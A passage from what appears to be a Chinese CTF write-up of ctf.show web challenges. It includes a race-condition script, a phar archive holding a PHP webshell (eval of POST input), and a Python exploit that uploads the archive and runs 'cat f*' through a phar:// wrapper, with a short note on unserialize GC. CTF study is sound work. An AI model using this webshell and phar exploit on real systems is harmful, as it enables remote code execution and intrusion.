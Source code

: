 ```python
    if "flag{" in r.text and flag is False:
        print(base64.b64encode(r.text.encode()))
        flag = True

while flag is False:
    a = threading.Thread(target=work1)
    b = threading.Thread(target=work2)
    a.start()
    b.start()

```







## web803

生成phar包

```
<?php 
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

exp

```
import requests
url="http://fb4a2719-ca0e-47f2-9c7f-10061565ef8f.challenge.ctf.show/"
data1={'file':'/tmp/a.phar','content':open('shell.phar','rb').read()}
data2={'file':'phar:///tmp/a.phar/a','content':'123','1':'system("cat f*");'} 
requests.post(url,data=data1)
r=requests.post(url,data=data2)
print(r.text)
```



## throw绕过

### easy unserialize

ctfshow平台卷王杯的一个题目

__destruct函数的GC回收机制

参考链接：https://www.jianshu.com/p/d73b3ca418b0

在PHP中，没有任何变量指向这个对象时，这个对象就成为垃圾。PHP会将其在内存中销毁；这是PHP 的GC垃圾处理机制，防止内存溢出。
